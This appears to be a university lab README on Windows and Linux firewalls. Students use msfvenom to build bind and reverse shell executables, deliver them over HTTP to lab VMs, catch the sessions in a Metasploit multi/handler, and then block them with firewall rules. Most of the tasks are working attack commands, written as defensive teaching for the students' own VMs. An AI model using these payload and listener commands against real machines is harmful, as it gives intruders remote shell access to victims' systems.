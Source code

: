 # Windows Firewall
## Description
With malware generated by Metasploit, 
- bind shell
- reverse shell

practice attacking Windows without protection.

## Equipment
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Prerequisite!!!
- [Lab01](../lab01/README.md) must be done first if you use a new Windows VM

## Tasks

Task 1: bind shell
---
- 1.1 What is a bind shell?
  - A bind shell listens on the target system, using a TCP or UDP port
  - This is a very simple attack, and very easily stopped by a firewall 
  - The default action of the Windows firewall is to block unexpected incoming packets, so stops this attack
- 1.2 Create a bind shell with msfvenom in Kali Linux VM 🐧, open a terminal
  ```bash
  # 1.2.1. find bind shell options, setup required options
  msfvenom -p windows/shell_bind_tcp --list-options

  # 1.2.2. create a bind shell
  msfvenom -p windows/shell_bind_tcp -f exe > ./bindShell.exe

  # 1.2.3. start a web server, wait for victims to download
  # keep the web server running
  sudo python3 -m http.server  80
  ```
- 1.3 On the Windows server VM 🪟, download and run bindShell.exe
  - open a browser and access http://Kali_IP/bindShell.exe
  - find the IP address of your Kali VM and replace Kali_IP in the URL
  - run bindShell.exe, ignore warnings and run anyway
- 1.4 view the listening process. Run a command prompt as Administrator
  ```cmd
  netstat -bano | more
  :: find bindShell.exe and its port number from the list
  ```
- 1.5 use the bind shell, on the Kali Linux VM 🐧, open another terminal
  ```bash
  # 1.5.1. connect the the bind shell
  nc Windows_IP 4444
  # A "Microsoft Window" banner appears

  :: Now you are in a windows command prompt
  :: 1.5.2. find the login account
  whoami 
  :: 1.5.3. view the network connection you are using
  netstat -an | findstr 4444
  :: don't exit or close this terminal
  ```

- 1.6 Block incoming connections to the bind shell
  - 1.6.1. On the Windows server VM 🪟, turn on Windows firewall from
    - Control Panel->System and Security->Windows Firewall ->Customize Settings
  - 1.6.2. Go back to the the previous Kali terminal with the remote Windows command prompt
    - type and commands such as help, dir, etc. you get no response
    - due the connection to bindShell.exe is blocked by Windows firewall


Task 2: reverse shell
---
- 2.1 What is a reverse shell?
  - A reverse shell originates the connection 
    - from the target server, sending a SYN out 
    - to the attacker's Command & Control server, 
      - which listens for incoming traffic
    - Any computer that allows Web browsing must allow connections to external IP addresses on common ports, such as 80 and 443, 
      - so this attack works even when Windows Firewall is on, in its default state.
- 2.2 Create a reverse shell
  - 2.2.1. on the Kali Linux VM 🐧, open another terminal
    ```bash
    # 1. list required options
    msfvenom -p windows/shell_reverse_tcp --list-options

    # 2. only LHOST is required, set it to be Kali_IP 
    msfvenom -p windows/shell_reverse_tcp LHOST=Kali_IP -f exe > reverseShell.exe

    # 3. start a Command-and-Control (C&C) server
    msfconsole
    use multi/handler
    set PAYLOAD windows/shell_reverse_tcp
    set LHOST 0.0.0.0
    exploit
    ```
  - 2.2.2. Launch the reverse shell on the Windows machine 🪟
    - open a browser, access http://Kali_IP/reverseShell.exe
    - download and run anyway
  - 2.2.3. Go back to the previous Kali Linux VM 🐧 terminal
    - 1. "command shell session" opens, run the following commands
      ```cmd
      # a. view the malware processes 
      tasklist /V /FI "IMAGENAME eq bindShell*"
      tasklist /V /FI "IMAGENAME eq reverseShell*"
      ```


Task 3: blocking outgoing connection with Windows firewall
---
- 3.1 From "Windows Firewall with Advanced Security", make sure Windows firewall is on for the three profiles
  - Domain profile
  - Private profile
  - Public profile
- 3.2 Create a outbound rule to block all TCP outbound connections
- 3.3 Go back to the previous Kali Linux VM 🐧 terminal, now the command shell session 1 is closed.
- 3.4 go back to the Windows machine 🪟, restore Windows firewall to its default state



## Extra credit (10%): Reverse shell on Linux

- e1. Setup an Ubuntu Linux machine, connect to the same NAT network as the Kali VM and Windows VM
- e2. Create a reverse shell malware on Kali
  ```bash
  # 1. create a reverse shell malware 
  msfvenom -p linux/x64/shell_reverse_tcp RHOST=Kali_IP -f elf > ./reverseShellLinux
  ```
- e3. Send the malware to Ubuntu by HTTP or FTP
- e4. In the reverse shell on Kali, find the malware connection
  ```bash
  # 1. start C&C
  msfconsole -q
  
  # 2. in msfconsole
  use multi/handler
  set PAYLOAD linux/x64/shell_reverse_tcp
  set LHOST 0.0.0.0

  # 3. after is running on Ubuntu
  exploit

  # 4. loot the Ubuntu victim machine
  whoami
  
  # 5. find the malware connection
  netstat -pant
  ```
- e5. Block outgoing connections with ufw on Ubuntu
  ```bash
  # 1. block outgoing connections with ufw
  sudo ufw default deny outgoing
  sudo ufw enable # go back to Kali, check the C&C

  # 2. turn off firewall
  sudo ufw disable
  ```


# Reference
- [samsclass: 15: Windows Firewall](https://samsclass.info/123/proj10/123p15fire.htm)
- [Malware attack](https://github.com/ufidon/its250/tree/master/labs/lab07)
- [filter in tasklist.exe does not take wildcards?](https://stackoverflow.com/questions/11746079/filter-in-tasklist-exe-does-not-take-wildcards)